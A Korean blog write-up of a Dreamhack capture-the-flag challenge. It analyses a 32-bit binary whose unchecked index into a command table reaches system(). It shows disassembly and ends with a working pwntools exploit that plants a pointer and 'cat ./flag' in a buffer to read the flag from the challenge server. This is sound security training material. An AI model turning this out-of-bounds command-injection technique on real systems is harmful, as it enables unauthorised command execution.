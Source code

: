 ```yaml
---
layout: post
title: 'Dreamhack-out of bound 문제 풀이'
summary: out of bound 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['system_hacking']
thumbnail: /assets/img/posts/2024-12-01-out-of-bound/Untitled.png
keywords: system_hacking, OOB
usemathjax: true
permalink: /blog/system_hacking/2024-12-01-out-of-bound
---
```


* TOC
{:toc}

<br>


## 0. 메타데이터 확인

<br>

![/assets/img/posts/2024-12-01-out-of-bound/Untitled.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled.png){: width="100%" height="100%"}

<br>

- ELF32
- Little endian

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_1.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_1.png){: width="100%" height="100%"}

<br>

- not stripped
- c언어 라이브러리 사용

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_2.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_2.png){: width="100%" height="100%"}

<br>

- 스택에서 쉘코드 실행 어려움
- 스택 카나리 켜져 있음
- PIE는 꺼져 있어서 코드 영역 주소 고정, 즉 plt, got 테이블 고정

새로 안 사실: checksec은 사실 pwntools 라이브러리의 하위 응용이었다.

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_3.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_3.png){: width="100%" height="100%"}

<br>

**가설: plt, got 테이블을 타고 들어가야 할 수도 있겠다, RAO를 사용할 만하다, 가젯을 사용해 ROP을 해야 할 수도?**

<br>

## 1. 행위 확인

<br>

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_4.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_4.png){: width="100%" height="100%"}

<br>

사용자의 입력을 총 2회 받는다.

이제 어셈을 분석해 보자.

<br>

## 2. 정적 및 동적 분석

<br>

### 2.1. 내부 함수 리스트 확인

<br>

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_5.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_5.png){: width="100%" height="100%"}

<br>

systeml 함수의 plt가 로딩되어 있다는 점을 염두에 두고 접근하자.

<br>

### 2.2. main 함수 확인

<br>

일단 main 함수를 디스어셈블해 보았다.

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_6.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_6.png){: width="100%" height="100%"}

<br>

내부에서 system 함수를 콜하는데 직전에 사용자 입력값의 길이를 제한하지 않아 취약한 함수인 scanf를 사용한다.

왠지 system 함수에 들어갈 커맨드를 오염시킬 수 있을 것 같다.

<br>

1. `Admin name:` 을 출력하고, 사용자 입력을 `0x804a0ac`에 0x10 byte 받는 부분

```nasm
   0x080486f4 <+41>:    call   0x80484b0 <printf@plt>   0x080486f9 <+46>:    add    esp,0x10   0x080486fc <+49>:    sub    esp,0x4   0x080486ff <+52>:    push   0x10   0x08048701 <+54>:    push   0x804a0ac   0x08048706 <+59>:    push   0x0   0x08048708 <+61>:    call   0x80484a0 <read@plt>
```

1. scanf가 값을 읽어와 저장하는 위치(ebp-0x10)

```nasm
   0x08048723 <+88>:    lea    eax,[ebp-0x10]   0x08048726 <+91>:    push   eax   0x08048727 <+92>:    push   0x8048832   0x0804872c <+97>:    call   0x8048540 <__isoc99_scanf@plt>
```

1. system 함수가 사용하는 커맨드의 위치

```nasm
   0x08048731 <+102>:   add    esp,0x10   0x08048734 <+105>:   mov    eax,DWORD PTR [ebp-0x10]   0x08048737 <+108>:   mov    eax,DWORD PTR [eax*4+0x804a060]   0x0804873e <+115>:   sub    esp,0xc   0x08048741 <+118>:   push   eax   0x08048742 <+119>:   call   0x8048500 <system@plt>
```

<br>

line 108이 이해가 안된다. eax는 ebp-0x10 주소값이 들어있는데, 따라서 ebp-0x10 위치에 있는 값을 참조하게 된다.

그리고 ebp-0x10 에는 사용자의 입력값이 들어 있다.

코드를 보면 `0x804a060` 에 저장된 주소를 베이스로 하고, eax*4를 오프셋으로 하여 커맨드 set에 접근하는 모양새인 것 같은데 맞을까? 그럼 테이블처럼 명령어를 참조하는 방식인 듯 하다.

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_7.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_7.png){: width="100%" height="100%"}

<br>

맞는 것 같다. 그럼 테이블의 위치를 참조하기 위해 ebp-0x10위치에 저장되는 사용자의 두 번째 입력값을 이용하는 게 된다.

<br>

### 2.3. 동적 분석

<br>

실제로 프로그램을 run해 보았고, 가설을 세웠다.

<br>

**[시도 1]**

1. 두번째 입력을 받을 때, ls를 참조하도록 2를 입력해 해당 응용이 위치한 디렉토리 내 파일을 파악한다.

**[결과]**

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_8.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_8.png){: width="100%" height="100%"}

<br>

**[시도 2]**

1. 첫번째로 사용자 입력을 받아 저장하는 곳은 `0x804a0ac` 으로, 명령어 테이블의 시작인 `0x804a060` (`0x80487f0` 을 저장하고 있고, 0x80487f0에는 문자열로 명령어가 저장되어 있음) 보다 `0x4C` 큰 주소다.
2. `0x4C` 을 4로 나누면 `0x13`이다.
3. 그럼 첫번째 입력 시에는 시도 1에서 알아낸 디렉토리 구조를 참고하여 `cat {플래그 파일 이름}` 명령어를 넣고, 두번째 입력 시에는 `0x13`를 넣는다면 내가 원하는 명령어가 참조되지 않을까?

**[결과]**

되긴 된다. 그런데 문제는 아래 부분이었다.

```nasm
   0x08048731 <+102>:   add    esp,0x10   0x08048734 <+105>:   mov    eax,DWORD PTR [ebp-0x10]   0x08048737 <+108>:   mov    eax,DWORD PTR [eax*4+0x804a060]   0x0804873e <+115>:   sub    esp,0xc   0x08048741 <+118>:   push   eax   0x08048742 <+119>:   call   0x8048500 <system@plt>
```

<br>

단순히 내가 입력했던 명령어의 시작 주소를 가리키도록 line 108을 조정하면 eax에는 내가 입력했던 명령어의 앞 4byte만 들어간다. 또한, 기본적으로 참조할 주소를 저장하는 레지스터의 특성상 아무 일도 일어나지 않는다.

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_9.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_9.png){: width="100%" height="100%"}

<br>

첫번째로 입력을 받을 때 0x10byte를 받는다.

내가 이용할 수 있는 건 16 byte의 공간이다.

그 중 처음 4byte를 이후 12byte의 시작 주소가 되도록 조정한다.

<br>

**[시도 3]**

```python
from pwn import *# p = process('./out_of_bound')p=remote('host3.dreamhack.games', 14273)
payload = p32(0x804a0b0, endian='little')
payload += b'cat ./flag'p.recvuntil("Admin name: ")
p.sendline(payload)
p.recvuntil("What do you want?: ")
p.sendline("19")
# gdb.attach(p, gdbscript='b *(main+115)')p.interactive()
```

**[결과]**

![/assets/img/posts/2024-12-01-out-of-bound/Untitled_10.png](/assets/img/posts/2024-12-01-out-of-bound/Untitled_10.png){: width="100%" height="100%"}

<br>

플래그 획득에 성공했다!